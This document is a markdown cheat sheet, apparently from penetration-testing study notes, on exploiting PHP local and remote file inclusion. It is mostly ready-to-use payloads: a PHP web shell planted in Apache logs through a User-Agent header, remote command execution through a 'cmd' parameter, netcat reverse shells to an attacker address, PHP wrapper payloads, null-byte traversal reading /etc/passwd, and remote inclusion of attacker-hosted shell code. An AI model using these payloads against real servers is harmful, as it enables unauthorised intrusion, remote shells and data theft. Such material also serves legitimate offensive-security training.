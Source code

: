 # File Inclusion

## Local File Inclusion

> The Local File Inclusion vulnerability allows an attacker to read a file from the vulnerable server (Directory Traversal), which occurs due to a programming error on the page. This vulnerability can lead the attacker to:
RCE, XSS, DOS...


Once identified a Directory Traversal vulnerability, we can try RCE using various techniques.
_____
### LFI Apache Poisoning Logs

#### Identifying Access log location

In order to execute this type of attack, it's crucial to identify the OS of the web server or the access log file location. Common Apache access file locations are:

* **RHEL/Red Hat/CentOS/Fedora Linux :** /var/log/httpd/access_log

* **FreeBSD Apache access log file location:** /var/log/httpd-access.log

* **Debian/Ubuntu Linux:** /var/log/apache2/access.log

* **Windows:** c:\xampp\apache\logs\access.log

#### Adding code in the log file

We can use nc or Burpsuite to create an invalid request that will be saved in the log file containing our payload:

```bash
#Connect to the server using Netcat and execute a bad request:
<?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?>
#Using Burpsuide, change User-Agent header like (insert in the middle):
User-Agent: Mozilla/5.0 <?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?> Gecko/210001310314 Firefox.....
```

#### RCE

Once the payload is in the log file it's time to search the file using the Directory Traversal vulnerability to find the log file and set a value to the "cmd" parameter which will execute system commands:

```bash
#Execute system commands (change $SYSTEMCOMMAND):
.php?file=c:\xampp\apache\logs\access.log&cmd=$SYSTEMCOMMAND
#Reverse shell using netcat:
.php?file=c:\xampp\apache\logs\access.log&cmd=nc.exe -e cmd.exe $IPADDRESS $PORT
```

#### Wrappers

PHP provides protocol ["wrappers"](https://www.php.net/manual/en/wrappers.php) that we can use to exploit Directory Traversal or LFI vulnerabilities.

```bash
.php?file=expect://whoami

.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

.php?page=data:text/plain;,<?php echo shell_exec("whoami");?>
```

#### LFI to RCE with SMTP

Check ippsec video on "Beep HTB Machine"
 _____
 
 ##### Null Byte injection
 
 If the source codes appends the extension at the end of the code, simply put a null byte at the end to bypass it.
 
 ```bash
 #Code:
 include $_REQUEST["page"] + .html
 
 #Payload:
 ?page=../../../../etc/passwd%00
 ```
 
 _____
 _____

## Remote File Inclusion

Same as LFI but referencing external scripts:

```bash
#Example:
.php?file=http://$IPADDRESS/$FILE.txt
#Content of $FILE can be (make the file with .txt extension but containing the php code inside):
<?php echo shell_exec("nc.exe $IPADDRESS $PORT -e cmd.exe") ?>
<?php echo shell_exec($_GET['cmd']) ?>
```

#### RCE

```bash
.php?file=http://$IPADDRESS/$FILE.txt&cmd=$COMMAND
```

_____

## Bypass file extensions

If there is a server side adding extensions to files (like .php), we can try to use Null byte (%00) or question mark (?) to bypass:

```bash
.php?file=http://$IPADDRESS/$FILE.txt%00
.php?file=http://$IPADDRESS/$FILE.txt?
```

[Awakened 1712 github](https://awakened1712.github.io/oscp/oscp-lfi-rfi/)
